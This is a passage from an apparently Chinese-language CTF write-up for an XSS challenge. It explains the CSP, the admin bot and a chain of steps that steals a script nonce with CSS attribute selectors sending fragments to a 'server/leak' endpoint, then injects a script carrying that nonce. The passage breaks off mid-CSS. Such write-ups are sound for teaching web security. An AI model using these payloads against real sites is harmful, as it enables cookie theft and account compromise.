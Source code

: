 這邊值得注意的一點是如果改變 hash 的話會載入新的 note，這點滿重要的。

而 CSP 的部份如下：

```html
<meta http-equiv="Content-Security-Policy"
    content="script-src 'nonce-<%= nonce %>'; frame-src 'none'; object-src 'none'; base-uri 'self'; style-src 'unsafe-inline' https://unpkg.com">
```

每一個 response 都有不同的 nonce，長度為 32 位，每一個字元是 a-zA-Z0-9，有 36 種組合。CSS 的部分允許 inline 跟 unpkg，因為 unpkg 就只是去 npm 上拿，所以可以想成是允許任何的外部 style。

admin bot 的部份只能訪問 `/share/read`，訪問後會停留 30 秒，這個 timeout 應該滿明顯是要花時間 leak 什麼東西：

``` js
await page.goto(
  `http://localhost/share/read#id=${id}&username=${username}`,
  { timeout: 5000 }
);
await new Promise((resolve) => setTimeout(resolve, 30000));
await page.close();
```

對了，flag 在 cookie 裡面，所以目標是 XSS。

其實看完題目之後我覺得滿直覺的，很明顯要想辦法用 CSS 偷到 nonce，偷到 nonce 以後建立一個新的 note，然後改變 hash 去載入新的 note，就可以 XSS。

但有一些小細節要注意就是了，像是 admin bot 只能訪問某一個筆記，所以要先用 `<meta>` redirect 到自己的 server，再用 `window.open` 去打開新的筆記，這樣偷到 nonce 以後才能藉由改變 hash 去更新內容，確保 nonce 不會變。

總之呢，流程如下：

1. 新增一個 note，內容為 `<meta http-equiv="refresh" content="0;URL=https://my_server">`，id 是 0
2. 新增另一個 note，內容為 `<style>@import "https://unpkg.com/pkg/steal.css"</style>`，id 是 1
3. 讓 admin bot 訪問 id 是 0 的 note
4. admin bot 被導到 my server，此時可以在我的 origin 執行任意 JavaScript
5. 執行 `w = window.open(note_1)`，開始偷 nonce
6. 拿到偷來的 nonce
7. 新增最後一個 note，內容為 `<script nonce=xxx></script>`，id 為 2
8. 執行 `w.location = '.../share/read#id=2'`
9. XSS

這之中最麻煩的部分就在於用 CSS 偷 nonce 了。

### 用 CSS 偷 nonce

我以前剛好有研究過用 CSS 偷東西：[用 CSS 來偷資料 - CSS injection（上）](https://blog.huli.tw/2022/09/29/css-injection-1/)，但裡面講到的做法其實這一題行不通。

由於 nonce 的可能性有太多種，所以一個字元一個字元偷是最快的方法，但這種做法要利用 `@import` 加上 blocking 的方式，這一題的外部連結只能到 unpkg，是靜態檔案，沒辦法。

另一種做法剛好前陣子才看過但還沒更新到文章：[Code Vulnerabilities Put Proton Mails at Risk](https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail/#splitting-the-url-into-smaller-chunks)

這做法滿聰明的，把一段字切成很多小字串，每個字串有三個字元，我們對 a-zA-Z0-9 做三個字的全排列組合，像這樣：

``` css
script[nonce*="aaa"]{--aaa:url("https://server/leak?q=aaa")}
script[nonce*="aab"]{--aab:url("https://server/leak?q=aab")}
...
script[nonce*="ZZZ"]{--ZZZ:url("https://server/leak?q=ZZZ")}

script{
  display: block;
  background-image: -webkit-cross-fade(
    var(--aaa, none),
    -webkit-cross-fade(
      var(--aab, none), var(--ZZZ, none), 50%
    ),
    50%
```